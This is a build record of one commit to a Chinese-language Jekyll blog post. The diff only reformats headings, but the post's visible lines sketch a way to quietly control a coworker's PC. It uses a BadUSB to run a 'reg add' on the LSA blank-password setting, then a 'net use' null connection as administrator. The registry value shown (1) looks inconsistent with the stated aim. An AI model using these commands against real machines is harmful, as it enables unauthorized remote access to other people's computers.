

Before and after one commit to fenglilinglegeluan/fenglilinglegeluan.github.io, a Jekyll site: the page built from _posts/2021-08-17-net_use低调持久控制同事电脑的奇怪想法.md, in a window 1280 px wide. Shown: the top 452 px of the page, without its empty margins (282-997 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

````diff
--- a/_posts/2021-08-17-net_use低调持久控制同事电脑的奇怪想法.md
+++ b/_posts/2021-08-17-net_use低调持久控制同事电脑的奇怪想法.md
@@ -4,7 +4,7 @@ title:  net use 低调持久控制同事电脑的奇怪想法
 categories: [Windows,cmd]
 ---
 
-#1 设想利用 badusb 修改组策略里的 "限制空密码登录控制台" 的选项.
+1 设想利用 badusb 修改组策略里的 "限制空密码登录控制台" 的选项.
 
 ```cmd
 cmd /c "reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa /v LimitBlankPasswordUse /t REG_DWORD /d 1 /f"
@@ -12,7 +12,7 @@ cmd /c "reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa /v LimitBlan
 
 通过修改这个选项,下一步可以利用 `net use `建立空链接.
 
-#2 net use
+2 net use
 
 ```cmd
 net use \\IP "" /user:administrator
````
